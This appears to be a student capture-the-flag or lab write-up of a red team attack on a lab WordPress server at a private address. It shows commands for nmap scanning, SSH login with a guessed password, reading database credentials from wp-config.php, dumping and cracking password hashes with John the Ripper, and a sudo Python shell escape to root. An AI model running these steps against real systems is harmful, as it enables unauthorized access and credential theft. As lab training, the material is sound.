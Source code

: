 #
# **Red Team: Summary of Operations**

## **Table of Contents**

- Exposed Services
- Critical Vulnerabilities
- Exploitation

### **Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:

$ nmap ... # nmap -sV 192.168.1.110

![nmap](Red%20Team%20Screenshots/nmap.png)

This scan identifies the services in the above screenshot as potential points of entry.

**Critical Vulnerabilites**

The following vulnerabilities were identified on target 1.

- Network Mapping (WordPress site)
  - Nmap was used to discover open ports.
- SSH access available to public
  - An easily guessable user password was used to gain ssh access. No ssh key was required.
- MySQL login stored in plaintext
  - The attackers were able to discover a file containing login information for the MySQL database stored in plaintext.
- Unsalted hashes
  - The attackers were able to gain access to usernames and unsalted hashes of those users passwords in MySQL. The attacker exfiltrated the unsalted hashes and cracked them using John the Ripper.
- Privilege Escalation
  - User Steven has sudo access for Python
    - The attackers leveraged this vulnerability to gain root access.

Below are the associated CVE entries on identified vulnerabilities.

- Target 1
  - [CVE-2021-28041 open SSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710 Apache https 2.4.10](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)
  - [CVE-2017-7494 Samba NetBIOS](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

-

### **Exploitation**

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

![wp-scan](Red%20Team%20Screenshots/wp_scan.png)

![user_enumeration](Red%20Team%20Screenshots/user_enumeration.png)

  - flag1.txt: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used:** ssh into Michael&#39;s account and look in the/var/www files
      - ssh michael@192.168.1.110
      - Password: michael
      - command: $ cd /var/www
      - command: $ ls
      - command: $ grep -RE flag html
        - Screenshot below is the output of the &quot;grep&quot; command.

![flag_1](Red%20Team%20Screenshots/flag_1.png)

  - flag2.txt: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - ssh&#39;d into Michael&#39;s account and looked in the /var/www files.

![flag_2](Red%20Team%20Screenshots/flag_2.png)

Flag 3 and 4

flag3.txt: flag3{afc01ab56b50591e7dccf93122770cd2}

flag4.txt: flag4.txt: flag4{715dea6c055b9fe3337544932f2941ce}

Exploits used

- As Michael found MySQL login information in the /var/www/html/wordpress/wp-config.php file.

![wpconfig](Red%20Team%20Screenshots/cat_wpconfig.png)

- Used the credentials u: root p: R@v3nSecurity to login to MySQL
  - Command: mysql -u root -p
  - Password: R@v3nSecurity
- Command: show databases;
- Command: use wordpress;
- Command: show tables;
- Command: select \* from wp\_posts;

Found flags 3 and 4.

![flag_3_4](Red%20Team%20Screenshots/flag_3_4.png)

Found hashed passwords for Michael and Steven in MySQL

Command: $ select \* from wp\_users;

![hashes](Red%20Team%20Screenshots/password_hashes.png)

**Escalating to Root**

- Exfiltrated Steven&#39;s hashed password and cracked it using John the Ripper
  - Copied hash into a local file called wp\_hashes.txt
    - Command: $ john wp\_hashes.txt
 ![password](Red%20Team%20Screenshots/steven_password.png)
- Steven password is pink84
- Ssh steven@192.168.1.110
  - Passwd: pink84
- Command: $ sudo -l
- ![permissions](Red%20Team%20Screenshots/sudo_permissions.png)
- Steven has sudo privileges to use Python. We can [exploit this](https://rcenetsec.com/shell-spawning/)
- sudo python -c &#39;import pty;pty.spawn(&quot;/bin/bash&quot;)&#39;
- ![root](Red%20Team%20Screenshots/root.png)
- command: $ cd
- command: $ ls
- command: $ cat flag4.txt
- ![pwned](Red%20Team%20Screenshots/pwned.png)
